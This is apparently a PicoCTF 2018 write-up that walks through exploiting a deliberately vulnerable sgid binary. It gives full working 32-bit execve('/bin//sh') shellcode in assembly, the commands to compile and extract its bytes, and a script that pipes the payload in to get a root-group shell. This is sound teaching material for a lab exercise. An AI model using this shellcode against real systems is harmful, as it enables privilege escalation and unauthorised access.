 # PicoCTF_2018: shellcode

**Category:** Binary Exploitation
**Points:** 200
>This program executes any input you give it. Can you get a shell? 
You can find the program in /problems/shellcode_1_cec2eb801137d645a9f15b9b6af5347a on the shell server. Source.

> # Introduction

In this write-up I am going to demostrate how to gain shell access by exploiting this vulnerable program.
I shall show it in both 32bit and 64bit systems and you'll see the main differences.

> # Prerequisites:

You need to have some basic knowledge about C, gcc, linux command line, linux file permissions and x86 assembly. 

> # Scenario:

We have access to a system with an executable binary and a txt file containing the flag. The txt file is owned by a group 
that we are not members, so we don't have access. However, the executable binary is owned from tha same group and it has the sgid bit set. If we exploit it
and gain shell access we will grant privileges. As a result, we will be capable of reading the flag.txt to find the solution.
More about linux file permissions and sgid [here]

> # Setting up the environment:
First of all you need to download the executable and the flag from my git repository [here](https://github.com/giannoulispanagiotis/picoCTF-2018-wiretup/tree/master/shellcode)
Now we need to set up the permissions for both of the files to create the right scenario.

1. For the executable file vuln:

```bash
[sudo] chmod +x vuln
[sudo] chown root:root vuln
[sudo] chmod g+s vuln
```


2. For the flag file
```bash
[sudo] chown root:root flag.txt
[sudo] chmod 440 flag.txt 
```
Confirm by listing the file with ls -l vuln flag.txt. The result have to be something like that:

```
-r--r----- 1 root root 35 Oct 5 00:27 flag.txt
-rwxr-sr-x root root 725472 Oct 5 00:23 vuln
```

As you can see flag's and vuln's group ownership is root. But our user is not in root's group unfortunately. flag.txt is readable only from owner(root) and the members of the group's ownership(root again). But in vuln's file permissions we notice two things. First, group's ownership is also root and vuln has the sgid bit set. Which means that if we gain shell access from this executable our group id  will be root (0). I'll make it clear with screenshots soon. 

Okay now let's get to some nice stuff.
> # Shellcode Injection
We need to understand how the vuln program works. For this purpose we will make use of gdb to disassemble the program and find what it does.
This is how it looks like. (It may not be exactly the same in your case)


Nice, we see that the compiled binary is 32bit.
Inside the two functions (main and vuln) we need to focus on two points.
In the vuln function we see gets being called (which is vulnerable because doesn't check the size of our input, so we can overflow the buffer, but we don't need it in this challenge, it's much easier), so binary waits for input from stdin. Moreover, in the main function we can see the vulnerability we will exploit. **<main + 124>: call eax**
We want to find what it is inside register eax before we call it so we set a breakpoint before this instruction. Going down there we realize that in eax register is the address of the stack where our input is saved. So when program calls eax, tells processor to go to this address and execute the instructions that will find there. Thus we understand that if we put in the right input (a shellcode) we can easily gain access. And .... let's go write this shellcode anyway.

> # Crafting Shellcode
I will try to explain it in brief. First create shellcode.asm with the following code:
(Remember, memory is upside down, so when we want to push in the stack a string e.g. /bin/sh\0 we have to do it like that:
push \0 (null)
push //sh in hex
push /bin in hex
In 32 bit systems,  a memory block has a 4 bytes size, so we split our string. We also use 2 '//' so that we cover the whole block(4 bytes - '/sh' is 3 bytes), otherwise there will be something else in the 4th byte that we don't want to. /bin/sh and /bin//sh have no difference.

```asm
xor eax, eax ; clearing eax register
push eax     ; Pushing NULL bytes (\0)
push 0x68732f2f ; Pushing //sh
push 0x6e69622f  ; Pushing /bin
mov ebx, esp     ; ebx has address of /bin//sh
push eax         ; Pushing NULL byte (for argv array)
mov edx, esp     ; edx now has address of NULL byte
push ebx         ; pushing address of /bin//sh
mov ecx, esp     ; ecx now has address of address of /bin//sh 
mov al, 0xb    ; syscall number of execve is 11
int 0x80         ; system call
```

We call the execve function to get a shell.
In 32bit systems arguments of a function go in that way: eax, ebx, ecx, edx
Our function is:
```C
 int execve(const char *filename, char *const argv [], char *const envp[]);
```

This means we're passing the following:
eax // Syscall of execve == 11 == 0xb
ebx // Arg#1: pointer to the program string ("/bin//sh")
ecx // Arg#2: pointer to the argunments array
(argv[0] = "/bin//sh" , argv[1] = NULL)
edx // Arg#3: pointer to the environment array (NULL)

To compile it use nasm:

```bash
nasm -f elf shellcode.asm
```

Now we want to get the shellcode bytes in hex format.
If we use objdump -d shellcode.o the result is our assembly code and the hexadecimal format of it. To keep only the hex code we can use this command:
```bash
for i in $(objdump -d shellcode.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo;
```
*grep* is used to keep only lines with a space in the beginning. *cut -f2*  keeps the second column and with *echo* we print it in the format we want. 

After all, we almost have our input ready to pass it in our program. 

> # Crafting Payload
We need to understand that if we write as input something like: \x50\x35\x54\x73, in the stack will be this string converted into hex which is exactly the same when our input is: hello_world. That's something we don't want to. Python help us with that and prints our hex code in a string using ascii table.

```python
python -c 'print "--hex values here--"' >  payload
```
Now in the payload we have our input. We run vuln with input from payload

```bash
./vuln < payload
```
Congrats, or not? wait what the fuu?
We didn't get access to the shell. Ohh maybe we did something wrong in our shellcode...
No, basically we got access to the shell, but then, our program doesn't wait for some input and it terminates and we lose our access. We need a magic trick to overcome this problem.

*cat* command without arguments is doing exactly what we want, waits for input. Sooo what do you say about that:
```bash
(cat payload; cat) | ./vuln
```

```bash
cat flag.txt
```
Congrats, we got our flag.
Why can we now read flag.txt?
Using *id* command we notice that user is the same as before, but now we belong to root group. (sgid you are so dangerous my friend). And flag.txt allow to members of root group to read the file. Genious...
Before we get to 64bit systems let's write a shell script( I like doing that everytime, it's like a sum up)
```bash
nasm -f elf shellcode.asm

python -c "print '`(for i in $(objdump -d shellcode.o | grep "^ " | cut -f2); do echo -n '\x'$i; done;)`'"  > payload;

(cat payload; cat) | ./vuln
```






